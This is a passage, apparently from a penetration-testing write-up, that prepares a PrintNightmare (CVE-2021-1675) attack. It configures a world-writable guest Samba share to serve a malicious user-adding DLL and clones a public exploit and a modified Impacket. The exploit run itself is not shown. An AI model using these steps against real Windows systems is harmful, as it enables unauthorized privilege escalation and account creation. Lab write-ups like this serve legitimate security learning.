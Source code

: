    [share]
        comment = Samba
        path = /srv/smb/
        guest ok = yes
        read only = no
        browsable = yes
        force user = nobody



I'll restart Samba to take the updated config:



    oxdf@parrot$ sudo service smbd restart 



It's also important that that user can read from the SMB share, so I'll
set that directory to be owned by that user:



    oxdf@parrot$ sudo chown -R nobody:root smb/
    oxdf@parrot$ sudo chmod -R 777 smb/
    oxdf@parrot$ ls -l smb/
    total 12
    -rwxrwxrwx 1 nobody root 10240 Jul  7 22:10 AddUserDll.dll



#### Impacket

I'll clone the repo and rename it:



    oxdf@parrot$ cd /opt/
    oxdf@parrot$ git clone https://github.com/cube0x0/CVE-2021-1675
    Cloning into 'CVE-2021-1675'...
    remote: Enumerating objects: 159, done.
    remote: Counting objects: 100% (159/159), done.
    remote: Compressing objects: 100% (98/98), done.
    remote: Total 159 (delta 55), reused 124 (delta 32), pack-reused 0
    Receiving objects: 100% (159/159), 1.45 MiB | 7.37 MiB/s, done.
    Resolving deltas: 100% (55/55), done.
    oxdf@parrot$ mv CVE-2021-1675 SharpPrintNightmare
    oxdf@parrot$ cd SharpPrintNightmare/



This exploit uses a modified version of
[Impacket](https://github.com/cube0x0/impacket). I'll clone that into
this directory:



    oxdf@parrot$ git clone https://github.com/cube0x0/impacket
    Cloning into 'impacket'...
    remote: Enumerating objects: 19570, done.
    remote: Counting objects: 100% (645/645), done.
    remote: Compressing objects: 100% (304/304), done.
    remote: Total 19570 (delta 386), reused 531 (delta 339), pack-reused 18925
    Receiving objects: 100% (19570/19570), 6.82 MiB | 9.18 MiB/s, done.
    Resolving deltas: 100% (14798/14798), done.

